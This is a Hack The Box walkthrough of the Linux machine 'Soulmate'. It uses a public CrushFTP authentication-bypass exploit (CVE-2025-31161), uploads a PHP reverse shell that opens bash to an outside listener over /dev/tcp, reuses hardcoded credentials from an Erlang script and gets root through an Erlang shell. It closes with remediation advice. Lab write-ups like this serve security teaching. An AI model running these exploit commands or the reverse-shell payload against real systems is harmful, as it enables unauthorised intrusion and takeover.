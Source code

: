 # Soulmate — Hack The Box

![Soulmate](../images/Soulmate.png)

## Machine Info

- Difficulty: Easy  
- OS: Linux  
- IP: 10.10.11.86  
- Release date: 2025-10-30  
- Points: 20

---

## Summary

Soulmate is an Easy Linux box.  
It exposes a CrushFTP web interface vulnerable to an authentication bypass, CVE-2025-31161.  
I created an admin user, used the web UI to upload a PHP reverse shell, and obtained a `www-data` shell.  
I found hardcoded SSH credentials in an Erlang startup script.  
I used those creds to access an Erlang-based SSH service running as root, and executed commands via the Erlang shell.  
Root was obtained.

---

## Recon

Run a quick nmap scan:

```bash
nmap -sC -sV -oN nmap_initial.txt 10.10.11.86
````

Key results:

```
22/tcp open  ssh     OpenSSH 8.9p1
80/tcp open  http    nginx 1.18.0
```

Add host entries:

```bash
echo "10.10.11.86 soulmate.htb" | sudo tee -a /etc/hosts
echo "10.10.11.86 ftp.soulmate.htb" | sudo tee -a /etc/hosts
```

Discover virtual hosts with ffuf:

```bash
ffuf -u http://10.10.11.86/ -H 'Host: FUZZ.soulmate.htb' \
  -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -ac -t 50
```

Found `ftp.soulmate.htb`.
`ftp.soulmate.htb` runs CrushFTP, version 11.W.657.

---

## Initial Access

Search for CrushFTP exploits.
CVE-2025-31161 is an authentication bypass that allows creating admin users.

Exploit with the public script:

```bash
searchsploit -m 52295
python3 52295.py --target ftp.soulmate.htb --port 80 --check
python3 52295.py --target ftp.soulmate.htb --port 80 --exploit \
  --new-user hackerman --password 'Password123!'
```

Log in to CrushFTP web UI:

* URL: `http://ftp.soulmate.htb/WebInterface/login.html`
* User: `hackerman`
* Pass: `Password123!`

Use the file browser to inspect the filesystem.
Locate `/webProd/`, the web app root.

Create a PHP reverse shell:

```bash
cat > revshell.php << 'EOF'
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.114/4444 0>&1'");
?>
EOF
```

Upload `revshell.php` via CrushFTP to `/webProd/`.

Start a listener:

```bash
nc -lvnp 4444
```

Trigger the shell:

```bash
curl http://soulmate.htb/revshell.php
```

Stabilize the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

You now hold a `www-data` shell.

---

## Privilege Escalation to User

Enumerate services and files.

Check listening ports:

```bash
netstat -tulnp
```

Notable ports:

* `127.0.0.1:2222` LISTEN (internal SSH service)
* `0.0.0.0:4369` LISTEN (EPMD, Erlang Port Mapper Daemon)

Search for Erlang service files:

```bash
find / -name "*erlang*" -type f 2>/dev/null
cat /etc/systemd/system/erlang_ssh.service
```

Service runs as `root`:

```
ExecStart=/usr/local/bin/escript /usr/local/lib/erlang_login/start.escript
User=root
```

Read the startup script:

```bash
cat /usr/local/lib/erlang_login/start.escript
```

Found hardcoded credentials:

```erlang
{user_passwords, [{"ben", "HouseH0ldings998"}]}
```

SSH to the machine as `ben`:

```bash
ssh ben@10.10.11.86
# password: HouseH0ldings998
```

Read user flag:

```bash
cat /home/ben/user.txt
# HTB{redacted}
```

---

## Privilege Escalation to Root

Check sudo privileges:

```bash
sudo -l
# no sudo for ben
```

Connect to the Erlang SSH service on localhost as ben:

```bash
ssh ben@127.0.0.1 -p 2222
# password: HouseH0ldings998
```

You reach an Erlang shell:

```
Eshell V15.2.5
(ssh_runner@soulmate)1>
```

Erlang's `os:cmd/1` runs commands as the Erlang process user.
Verify root:

```erlang
os:cmd("whoami").
% "root\n"
```

Read root flag:

```erlang
os:cmd("cat /root/root.txt").
% "HTB{redacted}\n"
```

---

## Findings

* CVE-2025-31161, CrushFTP auth bypass.
* Web upload allowed PHP shells.
* Hardcoded credentials in a startup script.
* Erlang SSH service ran as root and allowed shell commands.

---

## Remediation

* Patch CrushFTP to a fixed version.
* Block web uploads of executable code. Validate content and store uploads outside web root.
* Remove hardcoded credentials. Use a secrets store with restricted access.
* Run services with least privilege. Avoid running network-exposed services as root.
* Restrict internal services. Do not expose sensitive internal interfaces to web processes.

---

## Tools

* nmap
* ffuf
* searchsploit
* netcat
* ssh
* python3

---

## Notes

* User flag: `HTB{redacted}`
* Root flag: `HTB{redacted}`
* Owned: 2025-10-30
* Platform: Hack The Box
